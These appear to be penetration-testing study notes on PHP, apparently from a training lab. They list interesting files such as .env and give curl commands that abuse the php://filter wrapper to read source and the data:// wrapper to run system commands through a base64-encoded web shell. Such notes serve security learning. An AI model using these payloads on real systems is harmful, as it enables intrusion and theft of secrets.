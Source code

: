 # PHP



PHP uses `$_GET` to manage variables via a GET request.
https://www.php.net/manual/en/reserved.variables.get.php







## File extension
- `.phtml`was the standard file extension for PHP 2 programs
- `.php3` took over for PHP 3
- When PHP 4 came out they switched to a straight `.php`










## Interesting Files

`configuration.php`

`.env`
file commonly used in PHP applications to store environment variable values.


### XAMPP

htdocs















## Wrappers


### `php://filter` wrapper can be used to include the contents of a file
```

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php


curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
# then the pass the result to bas64 -d


```



### `data:/`/ wrapper to achieve code execution

```

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"


echo -n '<?php echo system($_GET["cmd"]);?>' | base64

curl http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```
















